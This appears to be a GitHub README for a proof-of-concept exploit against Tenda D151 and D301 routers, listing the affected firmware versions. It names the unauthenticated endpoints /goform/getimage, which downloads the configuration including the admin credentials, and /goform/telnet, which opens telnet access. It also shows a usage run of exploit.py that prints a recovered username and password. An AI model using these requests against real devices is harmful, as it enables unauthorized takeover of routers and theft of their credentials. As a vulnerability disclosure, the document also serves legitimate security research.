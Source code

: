 # Tenda D151 D301 exploit (Proof of Concept)


__Exploit Title__: Tenda D151 & D301 - Unauthenticated configuration download (login included)


- Exploit Author: BenChaliah

- Vendor Homepage: https://www.tendacn.com

- Software Link: https://www.tendacn.com/us/download/detail-3331.html

- Versions:    
  - D301 1.2.11.2_EN
  - D301 V2.0 50.22.1.8_EN
  - D151 V2.0 50.21.1.5_EN


#### Description

This exploits allows for the download of the current router config including the admin login, just by requesting `{IP}/goform/getimage`, you can also activate telnet service by requesting `/goform/telnet` (the service is already on by default, but this will execute an `iptable` command allowing access).

⚠️ Telnet activation issue exists in many other tenda devices too.

The configuration exists in the last part of the downloaded firmware image.



#### Usage:
```shell
$ python exploit.py http://192.168.1.1
        _  _
  ___ (~ )( ~)
 /   \_\ \/ /   
|   D_ ]\ \/  -- By BenCh@li@h
|   D _]/\ \  -- github.com/BenChaliah
 \___/ / /\ \
      (_ )( _)
          

[!] Downloading config
	username: admin
	password: testpass
```
